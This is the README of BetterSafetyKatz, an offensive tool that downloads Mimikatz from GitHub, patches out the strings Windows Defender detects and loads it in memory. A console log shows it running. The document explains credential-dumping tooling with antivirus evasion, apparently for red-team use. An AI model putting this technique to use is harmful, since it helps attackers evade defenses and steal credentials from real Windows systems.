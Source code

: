 # BetterSafetyKatz?

This modified fork of SafetyKatz dynamically fetches the latest pre-compiled release of Mimikatz directly from the gentilkiwi GitHub repo, 
runtime patching on detected signatures and uses @subtee's PE Loader to get it into memory.

1. Gets the URL for the latest ZIP / PreCompiled Mimikatz binary directly from GitHub Repo
2. Unzipped in memory, turned into HEX. Then strings/signatures detected by Windows Defender are replaced with random strings of the same size 
    (Used https://github.com/matterpreter/DefenderCheck to gather signatures detected)
3. PE-Loaded into mem using @subtee POC (Added delays between mapping of DLLs-> Functions , Windows Defender thought it was to fast..)

Stolen from @harmj0y, @subtee and @gentilkiwi, repurposed by @Flangvik and @Mrtn9

[@harmj0y](https://twitter.com/harmj0y) is the primary author of the port that this repo is forked from.

BetterSafetyKatz is licensed under the BSD 3-Clause license.

## Usage

    PS D:\Projects\BetterSafetyKatz\BetterSafetyKatz\bin\Debug> .\BetterSafetyKatz.exe                                                      
	
	[+] Stolen from @harmj0y, @subtee and @gentilkiwi, repurposed by @Flangvik and @Mrtn9
	[+] Contacting gentilkiwi -> https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200502/mimikatz_trunk.zip
	[+] Randomizing strings in memory
	[+] Mapping DLL Ptrs into memory, but doing it sloooooowly (10 sec tops)
	[+] Executing loaded Mimikatz PE

	  .#####.   I7HC7OQ4 2.2.0 (x64) #18362 May  2 2020 16:23:51
	 .## ^ ##.  "CY76SIXX8WBAQF6XOOD" - (WMW0I)
	 ## / \ ##  /*** 1JKD5SDQM0EOSP `XGOPX1Y6CK` ( S9NK2HO6@XGOPX1Y6CK.com )
	 ## \ / ##       > http://blog.XGOPX1Y6CK.com/I7HC7OQ4
	 '## v ##'       P26TMNHP22ZGVUF             ( 45F6XVOMFTRJL6BXRNB86A5W )
	  '#####'        > KMPG3ATJL9YDWTE9SYW0Z / D14BS2FKVSL0DZA4VOONS7K   ***/

	I7HC7OQ4 # coffee

		( (
		 ) )
	  .______.
	  |      |]
	  \      /
	   `----'

	I7HC7OQ4 #


